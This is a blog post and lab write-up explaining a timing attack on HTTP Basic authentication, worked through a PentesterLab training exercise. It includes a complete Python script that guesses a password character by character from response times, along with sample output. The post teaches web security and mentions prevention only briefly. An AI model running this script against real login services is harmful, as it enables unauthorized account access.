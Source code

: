 ```yaml
---
layout: post
title: Authentication Timing Attack
date: 2015-08-21
author: Simon
summary: Guess the password in basic web authentication.
categories: security
tags: 
 - Web penetration
 - Authentication Timing Attack
---
```


## Background 
Non-constant string comparison time can be a vulnerablity of Basic web authentication. If a web developer did not set up constant response time, attackers may get the password by comparing response time of requests. In this article, we will use [Web for Pentester II](https://pentesterlab.com/exercises/web_for_pentester_II) authentication exercise 2 as an example. 

## Basics
![auth page](/img/2015-08-21-authentication-timing-attack.png){:width="500px"}
The process of authenticating is as the following:  
1. The browser sends a HTTP authentication request.     
2. The server compares the strings, and sends response.  

There are other types of auth requests than Basic, such as Digest and custom authentication. The username and password are concealed in the HTTP header. This is the header of Basic Authentication, which is the type of authentication in this example.
{% highlight http %}
GET /authentication/example2 HTTP/1.1
Host: http://192.168.56.101
Authorization: Basic dXNlcm5hbWU6cGFzc3dvcmQ=
{% endhighlight %}
`dXNlcm5hbWU6cGFzc3dvcmQ=` is the base64 code of `username:password`. The response will give you the status, which is whether you are authenticated or not, and some other content. Status code 200 is success, and 401 is fail. 


## How to
Suppose the actual password is `abcde`. Comparing `abcde` with `ab123` and `abc123`, the second one takes more time than the first one. With `ab123`, it compares 3 characters, and stops at the third letter. With `abc123`, it compares 4 letters, and stops at the fourth character. Based on this time difference, you could get the correct characters by comparing the response time of auth requests. 


## Details
Write a script to send authentication requests, and jot down the response time automatically. For example, this is a part of my ouput.
{% highlight shell%}
$ python ex2.py
 0 0 1.408078
 1 1 1.408148
 2 2 1.408747
...
23 n 1.408357
24 o 1.408269
25 p 1.609422
26 q 1.407573
27 r 1.406407
...
--------------------
Suggest:  25
Select one: 25
...
 1 p1 1.607937
 2 p2 1.608372
 3 p3 1.607752
 4 p4 1.810275
 5 p5 1.608626
 6 p6 1.609457
...
--------------------
Suggest:  4
Select one: 4
...
 0 p40 1.809672
 1 p41 1.810446
 2 p42 1.808867
...
{% endhighlight %}
The output `0 p40 1.809672` means `Index password response_time`. In the first loop, I send requests with one character as password. "p" took longer to respond, which indicated that p is likely to be contained in the password. With the correct bit confirmed, we can then test the next byte. It stops when it finds the correct password (getting response 200). 

### Script 
In this example, Python 2.7 was used to send requests and count time. `Requests: HTTP for Humans` is an easy-to-use library for HTTP requests. time.time() is used to measure the response time. Note that time.clock() and time.time() is different. clock() counts the processing time with respect to the CPU clock, while time() counts the wall clock time, considering other factors such as network latency.

{% highlight python %}
import requests
from requests.auth import HTTPBasicAuth
import time

dict = ['0', '1', '2', '3', '4', '5', '6', '7', '8', '9', 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l',
        'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y', 'z']
psw = ''
requests.get('http://192.168.56.101/authentication/example2', auth=HTTPBasicAuth('hacker', 'hacker'))
psw_found = False
while True:
    greatest = 0
    index = 0
    for i in range(len(dict)):
        current_psw = psw + dict[i]
        start = time.time()
        r = requests.get('http://192.168.56.101/authentication/example2', auth=('hacker', current_psw))
        taken = time.time() - start
        if greatest < taken:
            greatest = taken
            index = i
        print '{0:2d} {1:1s} {2:4f}'.format(i, psw + dict[i], taken)
        if r.status_code == 200:
            psw += dict[i]
            print 'password found: ', str(psw)
            psw_found = True
            break
    if psw_found:
        break
    print '--------------------'
    suggest = index
    print 'Suggest: ', suggest
    select = input('Select one: ')
    psw += dict[select]

{% endhighlight %}

### Prevention 
To prevent this vulnerability, either have a constant response time or use a more secure authentication technique.
